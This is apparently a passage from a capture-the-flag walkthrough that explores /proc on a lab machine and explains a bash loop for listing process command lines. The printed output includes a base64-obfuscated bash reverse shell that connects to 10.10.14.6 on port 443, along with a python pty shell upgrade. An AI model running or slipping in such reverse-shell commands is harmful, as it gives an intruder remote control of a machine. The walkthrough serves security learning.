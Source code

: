 

    atlas@sandworm:/proc$ ls
    1      52439       diskstats      kcore        mounts        swaps
    20     52440       dma            keys         mpt           sys
    20089  52916       driver         key-users    mtrr          sysrq-trigger
    20091  acpi        dynamic_debug  kmsg         net           sysvipc
    52380  bootconfig  execdomains    kpagecgroup  pagetypeinfo  thread-self
    52383  buddyinfo   fb             kpagecount   partitions    timer_list
    52384  bus         filesystems    kpageflags   pressure      tty
    52405  cgroups     fs             loadavg      schedstat     uptime
    52406  cmdline     interrupts     locks        scsi          version
    52412  consoles    iomem          mdstat       self          version_signature
    52429  cpuinfo     ioports        meminfo      slabinfo      vmallocinfo
    52432  crypto      irq            misc         softirqs      vmstat
    52433  devices     kallsyms       modules      stat          zoneinfo



Each numbered directory represents a process and will have a `cmdline`
file with the command line called to start the process. These are
missing newlines at the end, so it's a bit messy, but a quick way to
take a look is just to `cat` them all together (I'll make this more
readable in a minute):



    atlas@sandworm:/proc$ cat */cmdline
    /usr/local/bin/firejail--profile=webappflaskrungpg-agent--homedir/home/atlas/.gnupg--use-standard-socket--daemonscdaemon--multi-server/usr/bin/python3/usr/local/sbin/flaskrun/bin/sh-cecho YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bashbashbash-ipython3-cimport pty; pty.spawn("/bin/bash")/bin/bashpython3/bin/sh-cecho YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bashbashbash-ipython3-cimport pty;pty.spawn("/bin/bash")/bin/bashcat1/cmdline20089/cmdline20091/cmdline20/cmdline52380/cmdline52383/cmdline52384/cmdline52405/cmdline52406/cmdline52412/cmdline52429/cmdline52432/cmdline52433/cmdline52439/cmdline52440/cmdlineself/cmdlinethread-self/cmdlinecat1/cmdline20089/cmdline20091/cmdline20/cmdline52380/cmdline52383/cmdline52384/cmdline52405/cmdline52406/cmdline52412/cmdline52429/cmdline52432/cmdline52433/cmdline52439/cmdline52440/cmdlineself/cmdlinethread-self/cmdline



At least for the ones I can read, `firejail` jumps out.

For a better look at the processes, I'll write a quick `bash` oneliner
loop, which I'll show here with added whitespace:



    ls | while read d; do 
      cat "$d/cmdline" 2>/dev/null 
      && echo " [$d]"; 
    done



It's going to read all the items in the current directory (`/proc`), and
then for each try to `cat` a `cmdline` file from that directory
(`cat "$d/cmdline"`). If that fails, the output / error messages go to
`/dev/null` (`2>/dev/null`). `&&` means keep going only if the previous
command succeeded, and in that case, it will print the pid of the file
at the end. The result looks like:
